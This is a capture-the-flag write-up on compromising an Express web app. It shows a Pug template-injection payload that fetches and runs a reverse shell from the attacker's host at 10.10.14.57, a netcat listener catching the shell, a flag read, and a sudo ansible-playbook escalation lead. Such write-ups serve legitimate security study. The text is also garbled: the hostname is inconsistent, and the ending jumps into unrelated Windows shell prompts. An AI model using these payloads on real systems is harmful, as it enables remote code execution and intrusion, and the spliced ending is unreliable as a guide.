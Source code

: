 ![A screenshot that shows that we got a valid token](/static/images/stack-the-flags-2022/token-got.png)

Now we can use the new token to access the dashboard:

![A screenshot of the admin dashboard](/static/images/stack-the-flags-2022/dashboard-admin.png)

In the `/admin/setting` endpoint. We have a way to render a template!

![A screenshot of the admin templates section](/static/images/stack-the-flags-2022/admin-ssti-template.png)

So the first thing that comes in mind now is we find an SSTI. Knowing from the `Response Headers` that we’re dealing with an Express nodejs server. I just tried a bunch of payloads `{{7*7}} ${7*7} #{7*7}` And the `#{7*7}` works.

![A screenshot that shows the execution of pug ssti](/static/images/stack-the-flags-2022/pugssti-template.png)

This means that we’re dealing with a `pug ssti`.  I’ll be using the following payload where I am hosting a bash reverse shell in my local webserver and piping into bash.

```js
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.57 | bash')}()}
```

And I get a shell as john and grab the flag:

```bash
hcue@pjsk:/tmp » rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.228.37] 44176
can't access tty; job control turned off
$ id
$ cd ~
$ cat user.txt
STF22{g410f27d35f21325f47d83c375dedf32}
```

### Privilege Escalation

First, I will stabilize my shell:

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
john@bautycare:~$
[1]  + 583791 suspended  rlwrap nc -lvnp 443
hcue@pjsk:/tmp » stty raw -echo;fg
[1]  + 583791 continued  rlwrap nc -lvnp 443
john@beautycare:~$
john@beautycare:~$ export TERM=xterm
export TERM=xterm
john@beautycare:~$
```

Then, I’ll check if we have any sudo rights:

```bash
john@beautycare:~$ sudo -l
Matching Defaults entries for john on beautycare:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
john@beautycare:~$
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname